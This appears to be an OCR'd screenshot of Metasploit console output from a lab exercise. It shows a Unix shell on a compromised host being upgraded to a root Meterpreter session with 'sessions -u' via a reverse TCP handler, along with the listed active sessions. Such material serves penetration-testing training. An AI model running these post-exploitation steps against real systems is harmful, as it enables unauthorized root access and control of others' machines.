 ```
Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.195.144.2:45931 -> 192.195.144.3:445 (192.195.144.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.195.144.3  192.195.144.2:4433 -> 192.195.144.3:35964 (192.195.144.3)

msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.195.144.3 - Meterpreter session 2 closed.  Reason: User exit
```

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
```

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.195.144.2:45931 -> 192.195.144.3:445 (192.195.144.3)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.195.144.2:4433 
[*] Sending stage (985320 bytes) to 192.195.144.3
[*] Meterpreter session 3 opened (192.195.144.2:4433 -> 192.195.144.3:46954) at 2023-02-09 14:38:54 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.195.144.2:45931 -> 192.195.144.3:445 (192.195.144.3)
  3         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.195.144.3  192.195.144.2:4433 -> 192.195.144.3:46954 (192.195.144.3)
```
